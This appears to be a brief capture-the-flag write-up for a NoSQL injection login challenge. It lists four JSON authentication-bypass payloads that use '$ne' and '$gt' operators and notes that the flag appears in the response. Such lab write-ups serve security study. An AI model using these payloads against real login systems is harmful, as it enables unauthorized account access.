

# No Sql Injection



A simple login form was given.


No SQL injection payload required.

***Reference:*** [PayloadsAllTheThings – NoSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/NoSQL%20Injection/README.md)

JSON data;

```php
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```


The flag is revealed in the response section.

